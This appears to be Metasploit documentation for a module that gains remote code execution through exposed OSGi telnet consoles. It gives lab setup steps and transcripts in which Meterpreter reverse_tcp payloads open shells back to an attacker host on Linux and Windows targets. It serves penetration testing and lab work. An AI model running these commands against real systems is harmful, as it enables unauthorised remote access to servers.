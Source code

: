 ## Vulnerable Application

### Description

This module takes advantage of OSGi consoles exposed by some Java-based middleware servers.

The OSGi console is a telnet-based server that can be used for remote debugging and dynamic loading/removal of Java bundles running on an OSGi based server.

#### References

* OSGi Console - Gateway to (s)hell - https://qkaiser.github.io/pentesting/2018/02/13/osgi-console/
* Eclipse Equinoxe OSGi console - https://www.eclipse.org/equinox/documents/quickstart-framework.php

### Test setup

#### Linux environment

Follow these steps to run the vulnerable application on a Linux host:

1. Create a test environment directory
`mkdir testenv && cd testenv`
2. Download the setup script
`wget https://gist.githubusercontent.com/QKaiser/66c8a618eef2a7801c0bbb1aa43d724a/raw/e098f6ea31717311bd6ce5b3be94744dddfc2388/setup.sh`
3. Set appropriate permission
`chmod +x setup.sh`
4. Execute setup script
`./setup.sh`
5. Launch the vulnerable application with this command so it listens on port TCP/5555
`java -jar org.eclipse.osgi.jar -console 5555`
6. Verify that the server is running, you should be prompted with `osgi> `
`telnet localhost 5555`
7. From the telnet console, enable the second second server. This one listens on port 2019 by default. Set the IP to an address linked to an external interface if attacker machine is on another host.
`telnetd --ip=127.0.0.1 start`

#### Windows environment

Follow these steps to run the vulnerable application on a Windows host:

1. Download the Eclipse Equinoxe SDK from https://www.eclipse.org/downloads/download.php?file=/equinox/drops/R-Oxygen.2-201711300510/equinox-SDK-Oxygen.2.zip&r=1
2. Create a test directory. Let's name it `osgi_test` for clarity.
3. Create a directory named `configuration` in `osgi_test`
4. Create a file named `config.ini` in your `configuration` directory. The file should contain the following lines only:
```
osgi.bundles=org.eclipse.equinox.console@start, org.apache.felix.gogo.command@start, org.apache.felix.gogo.shell@start, org.apache.felix.gogo.runtime@start
eclipse.ignoreApp=true
osgi.noShutdown=true
```
5. Create an empty `plugins` directory in `osgi_test` directory
6. Extract `plugins/org.apache.felix.gogo.command_(version).jar` from the SDK as `org.apache.felix.gogo.command.jar` in `osgi_test` directory. 
7. Extract `plugins/org.apache.felix.gogo.runtime_(version).jar` from the SDK as `org.apache.felix.gogo.runtime.jar` in `osgi_test` directory.
6. Extract `plugins/org.apache.felix.gogo.shell_(version).jar` from the SDK as `org.apache.felix.gogo.shell.jar` in `osgi_test` directory.
8. Extract `plugins/org.eclipse.equinox.console_(version).jar` from the SDK as `org.eclipse.equinox.console.jar` in `osgi_test` directory.
9. Extract `plugins/org.eclipse.osgi_(version).jar` from the SDK as `org.eclipse.osgi.jar` in `osgi_test` directory.
10. At the end of those steps, your `osgi_test` directory should contain the following items:
```
.
├── configuration
│   └── config.ini
├── org.apache.felix.gogo.command.jar
├── org.apache.felix.gogo.runtime.jar
├── org.apache.felix.gogo.shell.jar
├── org.eclipse.equinox.console.jar
├── org.eclipse.osgi.jar
└── plugins
```
11. Launch the vulnerable application with this command so it listens on port TCP/5555
`java -jar org.eclipse.osgi.jar -console 5555`
12. Verify that the server is running, you should be prompted with `osgi> `
`telnet localhost 5555`
13. From the telnet console, enable the second second server. This one listens on port 2019 by default. Set the IP to an address linked to an external interface if attacker machine is on another host.
`telnetd --ip=127.0.0.1 start`

If you don't want to go through all those steps manually I recommend you to run the setup script on a Linux host, mount the directory on a Windows VM and start from step 11.

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/osgi_console_exec`
  4. Do: `set RHOST 127.0.0.1`
  5. Do: `set RPORT 5555` or `set RPORT 2019`
  6. Do: `check`. The target should appear vulnerable.
  6. Do: `set payload` with the payload of your choosing.
  5. Do: `run`
  5. You should get a shell.

## Options

  **TIME_WAIT** - Time to wait for payload to be executed. The default value is set to 20 seconds.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Ubuntu Linux target:

```
msf5 > use exploit/multi/misc/osgi_console_exec
msf5 exploit(multi/misc/osgi_console_exec) > set RHOST 172.20.10.4
msf5 exploit(multi/misc/osgi_console_exec) > set RPORT 5555
msf5 exploit(multi/misc/osgi_console_exec) > set TARGET 0
msf5 exploit(multi/misc/osgi_console_exec) > set payload linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/osgi_console_exec) > set LHOST 172.20.10.2
msf5 exploit(multi/misc/osgi_console_exec) > set LPORT 4444
msf5 exploit(multi/misc/osgi_console_exec) > run
[*] Exploit running as background job 1.
[*] Started reverse TCP handler on 172.20.10.2:4444
[*] 172.20.10.4:5555 - Accessing the OSGi console ...
[*] 172.20.10.4:5555 - Exploiting...
[*] Sending stage (857352 bytes) to 172.20.10.4
[*] 172.20.10.4:5555 - 172.20.10.4:5555 - Waiting for session...
[*] Meterpreter session 2 opened (172.20.10.2:4444 -> 172.20.10.4:39314) at 2018-02-14 19:17:39 +0100
[*] 172.20.10.4:5555 - Command Stager progress - 100.00% done (763/763 bytes)

msf5 exploit(multi/misc/osgi_console_exec) > sessions -i 2
[*] Starting interaction with 2...
meterpreter > sysinfo
Computer     : 172.20.10.4
OS           : Ubuntu 16.04 (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux

```

### Reverse shell on Windows host

Exploit running against a Windows 7 target:

```
msf5 > use exploit/multi/misc/osgi_console_exec
msf5 exploit(multi/misc/osgi_console_exec) > set RHOST 172.20.10.3
msf5 exploit(multi/misc/osgi_console_exec) > set RPORT 5555
msf5 exploit(multi/misc/osgi_console_exec) > set TARGET 1
msf5 exploit(multi/misc/osgi_console_exec) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/misc/osgi_console_exec) > set LHOST 172.20.10.2
msf5 exploit(multi/misc/osgi_console_exec) > set LPORT 4444
msf5 exploit(multi/misc/osgi_console_exec) > run
[*] Exploit running as background job 2.
[*] Started reverse TCP handler on 172.20.10.2:4444
[*] 172.20.10.3:5555 - Accessing the OSGi console ...
[*] 172.20.10.3:5555 - Exploiting...
[*] 172.20.10.3:5555 - 172.20.10.3:5555 - Waiting for session...
[*] Sending stage (179779 bytes) to 172.20.10.3
[*] Meterpreter session 1 opened (172.20.10.2:4444 -> 172.20.10.3:49365) at 2018-02-14 19:14:15 +0100
msf5 exploit(multi/misc/osgi_console_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : PENTEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
